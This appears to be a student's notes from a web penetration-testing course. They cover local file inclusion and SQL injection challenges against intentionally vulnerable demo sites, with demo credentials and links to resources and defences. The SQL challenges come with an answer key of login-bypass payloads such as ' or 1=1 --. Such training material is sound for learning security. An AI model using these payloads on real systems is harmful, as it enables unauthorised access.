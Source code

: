 Day 1

*Help*
#help#
~no~
!no!
%no%
@323@
%
^
&
*
(ghjgh)
{dghgfh}
[fhdfgh]
;asdfasdf;
'asdf'asdf'
"asdf"
,asdfasd,
.asdfas.
/asdfasd/a
\adfasdf\

?asdfasdf?f
<asdfsd>
==========


----


where to get word lists from:
Seclists


read: https://medium.com/@aysebilgegunduz/everything-you-need-to-know-about-idor-insecure-direct-object-references-375f83e03a87

Pentestmonkey.net has an amazing reverse shell cheat sheet, with examples in many languages.

## Local File Inclusion Challenges

Goal 1:
- Using LFI, read content of web.xml file
Target:
http://demo.testfire.net
Hints:
-Vulnerable link is http://demo.testfire.net/index.jsp?content=personal_deposit.htm
-In Java technology a web.xml file is located in the path /WEB-INF/web.xml in the web root
Use the admin link included in the web.xml to help gain access to admin page
jsmith  
Demo1234
--------------------------------------------------
Goal 2:
- Using LFI, read server side php file source code
Target:
http://testphp.vulnweb.com
vulnerable location: Artists - View Pictures
http://testphp.vulnweb.com/showimage.php?file=./pictures/1.jpg


## SQL Challenges

Login with different techniques using SQLi
http://demo.testfire.net/login.jsp
Hints: 
$ We know that there are users jsmith and sspeed
$ SQL queries made by the server are as follow:
First, the server checks if our user and password exist in the records
SELECT COUNT(*) FROM PEOPLE WHERE USER_ID = '  user  ' AND PASSWORD='  password  '
Second, the app grabs our info
SELECT FIRST_NAME,LAST_NAME,ROLE FROM PEOPLE WHERE USER_ID = ' user  '  
$ Helpful attack tips:
    You can use  comment -- only in the user field
    The app does not allow ; 
    order by desc can be useful



challenge 2

Login with  different users using SQLi
http://demo.testfire.net/login.jsp
Hints: 
$ We know that there are users jsmith and sspeed
$ SQL queries made by the server are as follow:
First, the server checks if our user and password exists in the records
SELECT COUNT(*)FROM PEOPLE WHERE USER_ID = '+ user +' AND PASSWORD=' + password + '
Second, he grabs our info
SELECT FIRST_NAME,LAST_NAME,ROLE FROM PEOPLE WHERE USER_ID = '+ user + '  
$ Helpful attack tips:
    You can use of comment --
    The app does not allow ; 
    order by is useful
-------------------------------------------

answer 

Answer:
--------
user: ' or 1=1 order by 1 desc -- 
pass: anything
user: ' or 1=1 --
pass: anything
user: jsmith
pass: ' or 'a'='a
user: jsmith' -- 
pass: anything




======================

extra sql - NoSQL 
https://www.youtube.com/watch?v=nAxI2Y9jR-8
SQL Injection Defences:
https://software-security.sans.org/developer-how-to/fix-sql-injection-in-java-using-prepared-callable-statement
https://software-security.sans.org/developer-how-to/fix-sql-injection-microsoft-.net-with-parameterized-queries




2.05
[x]Day1 - Morning
[x]Day1 - Afternoon - 1:09
[x] Day2 - Morning
[x]Day2 - Afternoon
[x]Day3 - Morning
[x]Day3 - Afternoon
[x]Day4 - morning
[x]Day4 - Afternoon - 2:15:00
[]Day5 - Morning
[]Day5 - Afternoon


[] = get challenge for xss - challenge 2 
[] XSS Game

[] demo.testfire.net: --- ibm site used for scanners. we can use for testing.
[] another site we could use to try to pentest -- http://zero.webappsecurity.com/
[] -- use the banner at the bottom of demo.testfire.net and zero.webappsecurity.com to find other similar sites. both have a footer that essentially says it is not a real site and used to show off the tool.(if you recall DLPdude had this too ... what was the product and the guys name? -- http://dlpdude.com/
[] test http methods - figure out what good test looks like - nmap or OPTIONS / HTTP/1.1 request in the header

[] python3 -m http.server 1234 -- this creates a webserver in python. -m means module
[] read about drupalaggedon - references on pg 675 
[] take metasploit unleashed course
[] owasp blog
[] portswigger blog
[] sans pentest page(day 5 at 4:42)



started afternoon at 2:33 - metasploit and known vulnerabilities